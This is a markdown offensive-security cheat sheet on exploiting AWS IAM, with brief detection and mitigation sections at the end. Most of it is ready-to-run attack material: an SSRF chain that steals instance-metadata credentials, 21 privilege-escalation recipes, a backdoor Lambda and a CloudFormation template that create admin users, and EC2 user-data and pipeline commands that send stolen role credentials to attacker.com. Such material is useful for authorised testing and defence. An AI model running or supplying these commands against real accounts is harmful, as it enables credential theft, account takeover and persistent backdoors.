

# IAM Exploitation

> **AWS IAM (Identity and Access Management) is the permission engine for all of AWS — every privilege escalation, lateral movement, and persistence technique in AWS cloud attacks runs through IAM.**

---

## 🧠 What Is It?

Imagine a company where every employee has a badge with a list of rooms they're allowed to enter. IAM is that badge system for AWS. The problem is, badges can be configured wrong, stolen via SSRF, created for users who shouldn't have them, or chained together in complex ways that accidentally grant God-mode access.

**Why attackers love IAM:** Once you find a single misconfigured IAM permission, you can often pivot to full account compromise — all without touching a single server.

---

## 🏗️ How It Works

### IAM Policy Evaluation Logic

```
1. Explicit DENY? → DENY (period, nothing overrides this)
2. Is there an ALLOW in identity policy, resource policy, or session policy?
   → For same-account: ALLOW in either works
   → For cross-account: ALLOW required in BOTH
3. No explicit ALLOW? → IMPLICIT DENY
```

### Policy JSON — Full Anatomy

```json
{
  "Version": "2012-10-17",           // Always this value
  "Id": "optional-policy-id",
  "Statement": [
    {
      "Sid": "Statement1",           // Optional identifier
      "Effect": "Allow",             // "Allow" or "Deny"
      "Principal": {                 // Who (resource-based policies only)
        "AWS": "arn:aws:iam::123456789012:user/Bob",
        "Service": "lambda.amazonaws.com",
        "Federated": "cognito-identity.amazonaws.com"
      },
      "Action": [                    // What API calls
        "s3:GetObject",
        "s3:PutObject",
        "s3:Delete*",                // Wildcards allowed
        "*"                          // Dangerous: everything
      ],
      "Resource": [                  // On what
        "arn:aws:s3:::my-bucket/*",
        "*"                          // Dangerous: everything
      ],
      "Condition": {
        "StringEquals": {
          "aws:RequestedRegion": "us-east-1",
          "s3:prefix": ["home/", "shared/"]
        },
        "Bool": {
          "aws:MultiFactorAuthPresent": "true"
        },
        "IpAddress": {
          "aws:SourceIp": "192.0.2.0/24"
        },
        "DateLessThan": {
          "aws:TokenIssueTime": "2024-12-31T23:59:59Z"
        },
        "StringLike": {
          "iam:AssociatedResourceArn": "arn:aws:ec2:*:*:instance/*"
        }
      }
    }
  ]
}
```

### Policy Types Deep Dive

#### 1. Identity-Based Policies

Attached to IAM users, groups, or roles. Answer: "What can **this entity** do?"

```json
// Managed policy (reusable, versioned)
// Inline policy (embedded in entity, deleted with entity)
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "ec2:DescribeInstances",
    "Resource": "*"
  }]
}
```

#### 2. Resource-Based Policies

Attached to the resource itself (S3 bucket, KMS key, Lambda, SQS queue). Answer: "Who can access **this resource**?"

```json
// S3 bucket policy example
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {"AWS": "arn:aws:iam::ACCOUNT_B:root"},
    "Action": ["s3:GetObject", "s3:PutObject"],
    "Resource": "arn:aws:s3:::my-shared-bucket/*"
  }]
}
```

#### 3. Permission Boundaries

A ceiling on what an identity-based policy can grant. Used to delegate IAM management without allowing privilege escalation.

```
Effective Permissions = (Identity Policy) ∩ (Permission Boundary)
```

```json
// Permission boundary: this role can NEVER do IAM actions
// even if its identity policy tries to grant them
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["s3:*", "ec2:*", "rds:*"],
    "Resource": "*"
  }]
}
// If identity policy has iam:CreateUser — DENIED by boundary
```

#### 4. Service Control Policies (SCPs)

Applied at the AWS Organization level — affect ALL accounts in an OU.

```json
// Deny any action in regions other than us-east-1 and eu-west-1
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Deny",
    "Action": "*",
    "Resource": "*",
    "Condition": {
      "StringNotEquals": {
        "aws:RequestedRegion": ["us-east-1", "eu-west-1"]
      }
    }
  }]
}
```

#### 5. Trust Policies (Role Assumption)

Every IAM role has a trust policy defining WHO can assume it.

```json
// Trust policy: allow EC2 service AND another AWS account
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {"Service": "ec2.amazonaws.com"},
      "Action": "sts:AssumeRole"
    },
    {
      "Effect": "Allow",
      "Principal": {"AWS": "arn:aws:iam::ATTACKER_ACCOUNT:root"},
      "Action": "sts:AssumeRole",
      "Condition": {
        "StringEquals": {"sts:ExternalId": "mysecretid"}
      }
    }
  ]
}
```

---

## 📊 Diagram



---

## ⚙️ Technical Details

### AssumeRole Mechanics

```bash
# Basic role assumption
aws sts assume-role \
  --role-arn arn:aws:iam::123456789012:role/AdminRole \
  --role-session-name my-session \
  --duration-seconds 3600

# Response:
{
  "Credentials": {
    "AccessKeyId": "ASIA...",
    "SecretAccessKey": "...",
    "SessionToken": "//...",
    "Expiration": "2024-01-15T18:00:00+00:00"
  },
  "AssumedRoleUser": {
    "AssumedRoleId": "AROAI3FHNTXXXXXXXXX:my-session",
    "Arn": "arn:aws:sts::123456789012:assumed-role/AdminRole/my-session"
  }
}

# Use the assumed role credentials
export AWS_ACCESS_KEY_ID="ASIA..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."
```

### Instance Profile / IMDS Credential Chain

```
EC2 Instance
  └── Instance Profile (links EC2 to IAM Role)
        └── IAM Role (has policies attached)
              └── Credentials served at:
                    http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
```

---

## 💥 Exploitation Step-by-Step

### Pre-Exploitation: Full SSRF → IMDS Attack Chain

```bash
# ─── Step 1: Find SSRF ───────────────────────────────────────
# Typical SSRF parameters: url=, redirect=, fetch=, proxy=, img=, load=
curl "https://vulnerable-app.com/proxy?url=http://attacker.com/test"

# ─── Step 2: Confirm internal access ─────────────────────────
curl "https://vulnerable-app.com/proxy?url=http://169.254.169.254/"
# Should return: latest/

# ─── Step 3: Walk the metadata ────────────────────────────────
curl "https://vulnerable-app.com/proxy?url=http://169.254.169.254/latest/meta-data/"
# ami-id
# hostname
# iam/         <-- jackpot
# instance-id
# local-ipv4
# public-keys/

# ─── Step 4: Get IAM role name ────────────────────────────────
curl "https://vulnerable-app.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
# WebAppRole

# ─── Step 5: Steal credentials ────────────────────────────────
curl "https://vulnerable-app.com/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/WebAppRole"
# {
#   "AccessKeyId": "ASIA...",
#   "SecretAccessKey": "...",
#   "Token": "...",
#   "Expiration": "2024-01-15T22:00:00Z"
# }

# ─── Step 6: Export on attacker machine ───────────────────────
export AWS_ACCESS_KEY_ID="ASIA..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."

# ─── Step 7: Enumerate what you can do ───────────────────────
aws sts get-caller-identity
python enumerate-iam.py --access-key $AWS_ACCESS_KEY_ID \
  --secret-key $AWS_SECRET_ACCESS_KEY \
  --session-token $AWS_SESSION_TOKEN
```

---

### IAM Privilege Escalation — 20+ Methods

> All paths discovered and documented by Rhino Security Labs (Spencer Gietzen). Each method requires specific IAM permissions.

---

#### Method 1: `iam:CreatePolicyVersion`

**Required:** `iam:CreatePolicyVersion` on target policy

```bash
# Add a new version of the policy with admin permissions
aws iam create-policy-version \
  --policy-arn arn:aws:iam::123456789012:policy/TargetPolicy \
  --policy-document '{
    "Version":"2012-10-17",
    "Statement":[{"Effect":"Allow","Action":"*","Resource":"*"}]
  }' \
  --set-as-default
```

---

#### Method 2: `iam:SetDefaultPolicyVersion`

**Required:** `iam:SetDefaultPolicyVersion` + the target policy has a permissive non-default version

```bash
# List all versions of a policy
aws iam list-policy-versions \
  --policy-arn arn:aws:iam::123456789012:policy/TargetPolicy

# Set a permissive old version as default
aws iam set-default-policy-version \
  --policy-arn arn:aws:iam::123456789012:policy/TargetPolicy \
  --version-id v2   # the permissive version
```

---

#### Method 3: `iam:CreateAccessKey` (on another user)

**Required:** `iam:CreateAccessKey` with no resource restriction

```bash
# Create access keys for a higher-privileged user
aws iam create-access-key --user-name AdminUser
# Returns new AccessKeyId + SecretAccessKey
```

---

#### Method 4: `iam:CreateLoginProfile` (on admin user)

**Required:** `iam:CreateLoginProfile`

```bash
# Set a console password for an admin user who has none
aws iam create-login-profile \
  --user-name AdminUser \
  --password "Pwned123!" \
  --no-password-reset-required

# Now log into console as AdminUser
```

---

#### Method 5: `iam:UpdateLoginProfile` (on admin user)

**Required:** `iam:UpdateLoginProfile`

```bash
# Change admin user's console password
aws iam update-login-profile \
  --user-name AdminUser \
  --password "NewPwned123!" \
  --no-password-reset-required
```

---

#### Method 6: `iam:AttachUserPolicy`

**Required:** `iam:AttachUserPolicy`

```bash
# Attach AdministratorAccess to yourself
aws iam attach-user-policy \
  --user-name MY_USERNAME \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

---

#### Method 7: `iam:AttachGroupPolicy`

**Required:** `iam:AttachGroupPolicy`, be a member of target group

```bash
# Attach AdministratorAccess to a group you're in
aws iam attach-group-policy \
  --group-name MyGroup \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

---

#### Method 8: `iam:AttachRolePolicy`

**Required:** `iam:AttachRolePolicy` + can assume target role

```bash
# Attach admin policy to a role you can assume
aws iam attach-role-policy \
  --role-name AssumableRole \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

# Then assume the role
aws sts assume-role \
  --role-arn arn:aws:iam::123456789012:role/AssumableRole \
  --role-session-name privesc
```

---

#### Method 9: `iam:PutUserPolicy` (inline policy)

**Required:** `iam:PutUserPolicy`

```bash
# Create an inline policy granting admin
aws iam put-user-policy \
  --user-name MY_USERNAME \
  --policy-name PrivEsc \
  --policy-document '{
    "Version":"2012-10-17",
    "Statement":[{"Effect":"Allow","Action":"*","Resource":"*"}]
  }'
```

---

#### Method 10: `iam:PutGroupPolicy`

**Required:** `iam:PutGroupPolicy`, in target group

```bash
aws iam put-group-policy \
  --group-name MyGroup \
  --policy-name PrivEsc \
  --policy-document '{
    "Version":"2012-10-17",
    "Statement":[{"Effect":"Allow","Action":"*","Resource":"*"}]
  }'
```

---

#### Method 11: `iam:PutRolePolicy`

**Required:** `iam:PutRolePolicy` + `sts:AssumeRole` on target role

```bash
aws iam put-role-policy \
  --role-name AssumableRole \
  --policy-name PrivEsc \
  --policy-document '{
    "Version":"2012-10-17",
    "Statement":[{"Effect":"Allow","Action":"*","Resource":"*"}]
  }'

aws sts assume-role \
  --role-arn arn:aws:iam::123456789012:role/AssumableRole \
  --role-session-name pwned
```

---

#### Method 12: `iam:AddUserToGroup`

**Required:** `iam:AddUserToGroup`

```bash
# Find admin groups
aws iam list-groups
# Join the admin group
aws iam add-user-to-group \
  --user-name MY_USERNAME \
  --group-name Administrators
```

---

#### Method 13: `iam:UpdateAssumeRolePolicy`

**Required:** `iam:UpdateAssumeRolePolicy` on admin role

```bash
# Modify trust policy to trust your user
aws iam update-assume-role-policy \
  --role-name AdminRole \
  --policy-document '{
    "Version":"2012-10-17",
    "Statement":[{
      "Effect":"Allow",
      "Principal":{"AWS":"arn:aws:iam::123456789012:user/MY_USER"},
      "Action":"sts:AssumeRole"
    }]
  }'

# Now assume the admin role
aws sts assume-role \
  --role-arn arn:aws:iam::123456789012:role/AdminRole \
  --role-session-name pwned
```

---

#### Method 14: `iam:PassRole` + `lambda:CreateFunction` + `lambda:InvokeFunction`

**Required:** `iam:PassRole` (target admin role), `lambda:CreateFunction`, `lambda:InvokeFunction`

This is the most commonly found indirect escalation.

```python
# evil_lambda.py — Create new admin access key and print it
import boto3
import json

def handler(event, context):
    iam = boto3.client('iam')
    
    # Create a new admin user
    iam.create_user(UserName='backdoor')
    iam.attach_user_policy(
        UserName='backdoor',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    keys = iam.create_access_key(UserName='backdoor')
    
    print(json.dumps(keys['AccessKey']))
    return keys['AccessKey']
```

```bash
# Zip and deploy
zip evil.zip evil_lambda.py

aws lambda create-function \
  --function-name privesc-func \
  --runtime python3.11 \
  --role arn:aws:iam::123456789012:role/AdminRole \
  --handler evil_lambda.handler \
  --zip-file fileb://evil.zip

# Invoke and get the admin key
aws lambda invoke \
  --function-name privesc-func \
  --payload '{}' \
  output.txt

cat output.txt
# {"UserName": "backdoor", "AccessKeyId": "AKIA...", "SecretAccessKey": "..."}
```

---

#### Method 15: `iam:PassRole` + `ec2:RunInstances`

**Required:** `iam:PassRole` (target admin role), `ec2:RunInstances`

```bash
# Launch EC2 with admin instance profile
# User data script creates access key and sends to attacker
aws ec2 run-instances \
  --image-id ami-0abcdef1234567890 \
  --instance-type t2.micro \
  --iam-instance-profile Name=AdminInstanceProfile \
  --user-data '#!/bin/bash
    TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
    CREDS=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/AdminRole)
    curl -X POST https://attacker.com/creds -d "$CREDS"
  ' \
  --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=privesc}]'
```

---

#### Method 16: `iam:PassRole` + `cloudformation:CreateStack`

**Required:** `iam:PassRole`, `cloudformation:CreateStack`

```bash
cat > evil-stack.json << 'EOF'
{
  "AWSTemplateFormatVersion": "2010-09-09",
  "Resources": {
    "BackdoorUser": {
      "Type": "AWS::IAM::User",
      "Properties": {"UserName": "cloudformation-backdoor"}
    },
    "BackdoorPolicy": {
      "Type": "AWS::IAM::ManagedPolicy",
      "Properties": {
        "PolicyDocument": {
          "Version": "2012-10-17",
          "Statement": [{"Effect":"Allow","Action":"*","Resource":"*"}]
        },
        "Users": [{"Ref": "BackdoorUser"}]
      }
    },
    "BackdoorKey": {
      "Type": "AWS::IAM::AccessKey",
      "Properties": {"UserName": {"Ref": "BackdoorUser"}}
    }
  },
  "Outputs": {
    "AccessKeyId": {"Value": {"Ref": "BackdoorKey"}},
    "SecretKey": {"Value": {"Fn::GetAtt": ["BackdoorKey", "SecretAccessKey"]}}
  }
}
EOF

aws cloudformation create-stack \
  --stack-name privesc-stack \
  --template-body file://evil-stack.json \
  --capabilities CAPABILITY_IAM \
  --role-arn arn:aws:iam::123456789012:role/AdminRole

# Wait for stack, then get outputs
aws cloudformation describe-stacks --stack-name privesc-stack \
  --query "Stacks[0].Outputs"
```

---

#### Method 17: `iam:CreateInstanceProfile` + `iam:AddRoleToInstanceProfile`

**Required:** `iam:CreateInstanceProfile`, `iam:AddRoleToInstanceProfile`, `ec2:RunInstances`

```bash
# Create instance profile and attach admin role
aws iam create-instance-profile --instance-profile-name EvilProfile

aws iam add-role-to-instance-profile \
  --instance-profile-name EvilProfile \
  --role-name AdminRole

# Launch EC2 with evil profile (see Method 15 for user data)
aws ec2 run-instances \
  --image-id ami-0abcdef1234567890 \
  --instance-type t2.micro \
  --iam-instance-profile Name=EvilProfile \
  --user-data '...'
```

---

#### Method 18: `glue:CreateDevEndpoint` + `iam:PassRole`

**Required:** `glue:CreateDevEndpoint`, `iam:PassRole` (admin role)

```bash
# Glue dev endpoint assumes an IAM role
aws glue create-dev-endpoint \
  --endpoint-name privesc-endpoint \
  --role-arn arn:aws:iam::123456789012:role/AdminRole \
  --glue-version "2.0" \
  --number-of-nodes 2

# Wait for endpoint to be READY
aws glue get-dev-endpoint --endpoint-name privesc-endpoint

# SSH into endpoint — it runs as the AdminRole
# Retrieve creds from IMDS
```

---

#### Method 19: `codestar:CreateProject` + `iam:PassRole`

**Required:** `codestar:CreateProject`, `iam:PassRole`

```bash
aws codestar create-project \
  --id privesc-project \
  --name privesc-project \
  --source-code '[...]' \
  --toolchain '{
    "source": {"s3": {"bucketName": "my-bucket", "bucketKey": "toolchain.yml"}},
    "roleArn": "arn:aws:iam::123456789012:role/AdminRole"
  }'
```

---

#### Method 20: `datapipeline:CreatePipeline` + `iam:PassRole`

**Required:** `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `iam:PassRole`

```bash
# Create pipeline that runs as admin role
PIPELINE_ID=$(aws datapipeline create-pipeline \
  --name privesc-pipeline \
  --unique-id privesc-pipe-001 \
  --query 'pipelineId' --output text)

aws datapipeline put-pipeline-definition \
  --pipeline-id $PIPELINE_ID \
  --pipeline-objects '[
    {
      "id": "Default",
      "name": "Default",
      "fields": [
        {"key": "workerGroup", "stringValue": "myGroup"},
        {"key": "role", "stringValue": "AdminRole"},
        {"key": "resourceRole", "stringValue": "AdminRole"}
      ]
    },
    {
      "id": "ShellCmd",
      "name": "ShellCmd",
      "fields": [
        {"key": "type", "stringValue": "ShellCommandActivity"},
        {"key": "command", "stringValue": "curl http://attacker.com/$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/AdminRole | base64)"},
        {"key": "runsOn", "refValue": "Ec2Resource"}
      ]
    }
  ]'
```

---

#### Method 21: `iam:CreateRole` + `iam:AttachRolePolicy` + `sts:AssumeRole`

```bash
# Create a new role trusting yourself
aws iam create-role \
  --role-name BackdoorRole \
  --assume-role-policy-document '{
    "Version":"2012-10-17",
    "Statement":[{
      "Effect":"Allow",
      "Principal":{"AWS":"arn:aws:iam::123456789012:user/MY_USER"},
      "Action":"sts:AssumeRole"
    }]
  }'

aws iam attach-role-policy \
  --role-name BackdoorRole \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

aws sts assume-role \
  --role-arn arn:aws:iam::123456789012:role/BackdoorRole \
  --role-session-name pwned
```

---

### Privilege Escalation Reference Table

| # | Method | Required Permissions | Complexity |
|---|---|---|---|
| 1 | CreatePolicyVersion | `iam:CreatePolicyVersion` | Low |
| 2 | SetDefaultPolicyVersion | `iam:SetDefaultPolicyVersion` | Low |
| 3 | CreateAccessKey | `iam:CreateAccessKey` | Low |
| 4 | CreateLoginProfile | `iam:CreateLoginProfile` | Low |
| 5 | UpdateLoginProfile | `iam:UpdateLoginProfile` | Low |
| 6 | AttachUserPolicy | `iam:AttachUserPolicy` | Low |
| 7 | AttachGroupPolicy | `iam:AttachGroupPolicy` | Low |
| 8 | AttachRolePolicy | `iam:AttachRolePolicy` | Medium |
| 9 | PutUserPolicy | `iam:PutUserPolicy` | Low |
| 10 | PutGroupPolicy | `iam:PutGroupPolicy` | Low |
| 11 | PutRolePolicy | `iam:PutRolePolicy` + assume | Medium |
| 12 | AddUserToGroup | `iam:AddUserToGroup` | Low |
| 13 | UpdateAssumeRolePolicy | `iam:UpdateAssumeRolePolicy` | Medium |
| 14 | PassRole + Lambda | `iam:PassRole` + lambda perms | Medium |
| 15 | PassRole + EC2 | `iam:PassRole` + `ec2:RunInstances` | Medium |
| 16 | PassRole + CloudFormation | `iam:PassRole` + CFN perms | Medium |
| 17 | CreateInstanceProfile | `iam:CreateInstanceProfile` + RunInstances | High |
| 18 | Glue DevEndpoint | `glue:CreateDevEndpoint` + PassRole | High |
| 19 | CodeStar | `codestar:CreateProject` + PassRole | High |
| 20 | DataPipeline | `datapipeline:*` + PassRole | High |
| 21 | CreateRole | `iam:CreateRole` + Attach + Assume | Medium |

---

## 🛠️ Tools

### enumerate-iam

```bash
git clone https://github.com/andresriancho/enumerate-iam
cd enumerate-iam
pip3 install -r requirements.txt

# Full enumeration
python enumerate-iam.py \
  --access-key ASIA1234567890EXAMPLE \
  --secret-key wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY \
  --session-token AQoD...

# Outputs all allowed actions:
# -- iam.list_users() worked!
# -- s3.list_buckets() worked!
# -- ec2.describe_instances() worked!
```

### Pacu IAM Modules

```bash
python3 pacu.py

# Import compromised credentials
Pacu> import_keys --access-key ASIA... --secret-key ... --session-token ...

# Enumerate ALL IAM permissions for current identity
Pacu> run iam__enum_permissions

# Scan for privilege escalation paths
Pacu> run iam__privesc_scan

# Brute force what actions are allowed
Pacu> run iam__bruteforce_permissions

# Enumerate all users/roles/groups/policies
Pacu> run iam__enum_users_roles_policies_groups

# Detect backdoor users/roles
Pacu> run iam__detect_honeytokens

# Create backdoor user with full access
Pacu> run iam__backdoor_users_keys --usernames TARGET_USERNAME

# Create backdoor role
Pacu> run iam__backdoor_assume_role
```

### PMapper — Permission Graph

```bash
pip install principalmapper

# Build IAM graph for an account
pmapper graph create

# Find privilege escalation paths
pmapper analysis --output privesc-paths.json

# Check if user A can escalate to admin
pmapper query "preset privesc" --principal arn:aws:iam::123456789012:user/Bob

# Visualize the graph
pmapper visualize --output graph.svg

# Find all paths between two principals
pmapper query "can PRINCIPAL_A do iam:* with RESOURCE using CONDITION"
```

### CloudFox

```bash
# Run all AWS checks
cloudfox aws all-checks --profile pentest-profile

# IAM-specific
cloudfox aws iam-simulator --profile pentest-profile --principal arn:aws:iam::123456789012:user/Bob
cloudfox aws role-trusts --profile pentest-profile
cloudfox aws permissions --profile pentest-profile --principal arn:aws:iam::123456789012:user/Bob

# Find sensitive endpoints and secrets
cloudfox aws endpoints --profile pentest-profile
cloudfox aws secrets --profile pentest-profile

# Instance profiles
cloudfox aws instance-profiles --profile pentest-profile
```

---

## 🔍 Detection

### CloudTrail Events Indicating IAM Abuse

```json
// CreatePolicyVersion — immediate alert
{
  "eventName": "CreatePolicyVersion",
  "requestParameters": {
    "policyArn": "arn:aws:iam::123456789012:policy/SomePolicy",
    "setAsDefault": true
  }
}

// AttachUserPolicy — alert when admin policy attached
{
  "eventName": "AttachUserPolicy",
  "requestParameters": {
    "policyArn": "arn:aws:iam::aws:policy/AdministratorAccess"
  }
}
```

### CloudWatch Alarm: IAM Privilege Escalation

```bash
# Create metric filter for high-risk IAM events
aws logs put-metric-filter \
  --log-group-name CloudTrail/DefaultLogGroup \
  --filter-name IAMPrivEscAlarm \
  --filter-pattern '{ ($.eventName = CreatePolicyVersion) || ($.eventName = AttachUserPolicy) || ($.eventName = PutUserPolicy) || ($.eventName = AddUserToGroup) || ($.eventName = UpdateAssumeRolePolicy) }' \
  --metric-transformations \
    metricName=IAMPrivEsc,metricNamespace=Security,metricValue=1

# Create alarm
aws cloudwatch put-metric-alarm \
  --alarm-name IAMPrivEscalationDetected \
  --metric-name IAMPrivEsc \
  --namespace Security \
  --statistic Sum \
  --period 300 \
  --threshold 1 \
  --comparison-operator GreaterThanOrEqualToThreshold \
  --evaluation-periods 1 \
  --alarm-actions arn:aws:sns:us-east-1:123456789012:SecurityAlerts
```

---

## 🛡️ Mitigation

### Least Privilege IAM Policy Template

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "DenyPrivEscPaths",
      "Effect": "Deny",
      "Action": [
        "iam:CreatePolicyVersion",
        "iam:SetDefaultPolicyVersion",
        "iam:AttachUserPolicy",
        "iam:AttachGroupPolicy",
        "iam:AttachRolePolicy",
        "iam:PutUserPolicy",
        "iam:PutGroupPolicy",
        "iam:PutRolePolicy",
        "iam:AddUserToGroup",
        "iam:UpdateAssumeRolePolicy",
        "iam:CreateAccessKey",
        "iam:CreateLoginProfile",
        "iam:UpdateLoginProfile"
      ],
      "Resource": "*"
    }
  ]
}
```

### Enforce Permission Boundaries on All New Roles

```bash
# Use AWS Organizations SCP to require permission boundaries
cat > require-boundary-scp.json << 'EOF'
{
  "Version": "2012-10-17",
  "Statement": [{
    "Sid": "RequirePermissionBoundary",
    "Effect": "Deny",
    "Action": ["iam:CreateRole", "iam:CreateUser"],
    "Resource": "*",
    "Condition": {
      "StringNotLike": {
        "iam:PermissionsBoundary": "arn:aws:iam::*:policy/OrgBoundary"
      }
    }
  }]
}
EOF

aws organizations create-policy \
  --name RequirePermissionBoundary \
  --type SERVICE_CONTROL_POLICY \
  --document file://require-boundary-scp.json
```

---

## 📚 References

- [Rhino Security Labs — AWS Privilege Escalation Methods](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [PMapper GitHub](https://github.com/nccgroup/PMapper)
- [Pacu GitHub](https://github.com/RhinoSecurityLabs/pacu)
- [CloudFox GitHub](https://github.com/BishopFox/cloudfox)
- [enumerate-iam GitHub](https://github.com/andresriancho/enumerate-iam)
- [AWS IAM Policy Evaluation Logic](https://docs.aws.amazon.com/IAM/latest/UserGuide/reference_policies_evaluation-logic.html)
- [MITRE ATT&CK T1098 — Account Manipulation](https://attack.mitre.org/techniques/T1098/)
- [HackTricks IAM PrivEsc](https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-privilege-escalation)
- **CVE-2022-25165** — Privilege escalation in AWS VPN Client
- **CVE-2023-7060** — AWS Glue IAM permission bypass
